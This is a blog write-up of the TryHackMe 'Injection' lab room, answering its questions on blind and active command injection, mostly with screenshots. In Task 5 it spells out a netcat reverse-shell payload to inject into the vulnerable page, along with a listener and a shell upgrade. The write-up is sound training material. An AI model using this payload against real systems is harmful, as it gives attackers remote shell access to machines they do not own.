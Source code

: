```yaml
---
title: "Walk-through of Injection from TryHackMe"
header:
  teaser: /assets/images/2020-06-03-14-47-11.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - THM
  - CTF
  - injection
  - blind
  - Linux
---
```


## Machine Information

![injection](/assets/images/2020-06-03-14-47-11.png)

Injection is a beginner level room designed to show the dangers of badly coded web pages. Skills required are basic Linux knowledge and an understanding of the layout of its filesystem. Skills learned are exploiting vulnerable webpages to achieve command injection.
<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [TryHackMe](https://tryhackme.com/) |
| Link To Machine | [THM - Easy - Tomghost](https://tryhackme.com/room/injection) |
| Machine Release Date | 2nd June 2020 |
| Date I Completed It | 2nd June 2020 |
| Distribution used | Kali 2020.1 – [Release Info](https://www.kali.org/releases/kali-linux-2020-1-release/) |

## Tasks 1 and 2

Task 1 and 2 are introductions and don't require any questions to be answered.

## Task 3 - Blind Injection

### Question 3.1

Ping the box with 10 packets.  What is this command (without IP address)?

A quick look at the help for ping will give you a clue to this answer:

```text
root@kali:~# ping -h
Usage
  ping [options] <destination>

Options:
  <destination>      dns name or ip address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -f                 flood ping
  -h                 print help and exit
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define mtu discovery, can be one of <do|dont|want>
  -n                 no dns name resolution
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response
```

### Question 3.2

Try to redirect output to a file on the web server.  What alert message do you see appear?

The explanation for this task talks about the standard Bash operator for redirection, which is >. We need to try redirecting the output of the vulnerable web page to see what we get:

![redirect](/assets/images/2020-06-02-22-52-46.png)

### Question 3.3

Enter "root" into the input and review the alert.  What type of alert do you get?

Simple enough, let's do as instructed, what message do we get back:

![root](/assets/images/2020-06-02-22-54-43.png)

### Question 3.4

Enter "www-data" into the input and review the alert.  What type of alert do you get?

![www-data](/assets/images/2020-06-02-22-55-50.png)

### Question 3.5

Enter your name into the input and review the alert.  What type of alert do you get?

![pencer](/assets/images/2020-06-02-22-56-37.png)

## Task 4 - Active Injection

### Question 4.1

What strange text file is in the website root directory?

Let's check where we are with pwd (present working directory):

![pwd](/assets/images/2020-06-02-23-06-05.png)

We can use ls to list the current directory, but need to try and make sense of the output:

![ls](/assets/images/2020-06-02-23-07-12.png)

### Question 4.2

How many non-root/non-service/non-daemon users are there?

We look in the passwd file to see the users on the system:

![passwd](/assets/images/2020-06-02-23-09-28.png)

We need to make sense of that output and work out the number.

### Question 4.3

What user is this app running as?

Let's check who we are:

![whoami](/assets/images/2020-06-02-23-11-57.png)

### Question 4.4

What is the user's shell set as?

We can go back to the output of the passwd file to see what our shell is set to. We can also use the getent command to make it easier:

![getent](/assets/images/2020-06-02-23-16-10.png)

### Question 4.5

What version of Ubuntu is running?

There's a helpful command called lsb_release you can use here:

![lsb_release](/assets/images/2020-06-03-13-52-16.png)

### Question 4.6

Print out the MOTD.  What favorite beverage is shown?

The way MOTD works has changed over the years, and it's different depending on the distribution. There's a hint for it in the question that will help. Also [here](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server) is a good explanation for the version of Ubuntu we are dealing with. Here's is how you could do it:

![motd](/assets/images/2020-06-03-13-57-51.png)

## Task 5 - Get The Flag

Time to find the hidden flag. You can do this using the website, but with command injection available it's more fun to get a shell on to the box. Start nc on your attack machine:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```

Then enter this command on the vulnerable website, changing IP and port as needed:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.195 1234 >/tmp/f
```

![nc](/assets/images/2020-06-02-22-59-08.png)

Back on Kali we see the connection, and have our reverse shell open:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.197.105] 35026
/bin/sh: 0: can't access tty; job control turned off
```

First thing is get a proper interactive shell running:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@injection:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~# stty raw -echo
```

Now we need to think how we will find the hidden flag. I started by looking around the obvious areas, like web site root, user home, but found nothing. So resorted to a guess on what extension the file might have and used **find** to look for it:

```text
www-data@injection:/$ find / -name *.txt 2>/dev/null | more
```

It's a longish list, but look through that a certain file will jump out at you.

All done. See you next time.

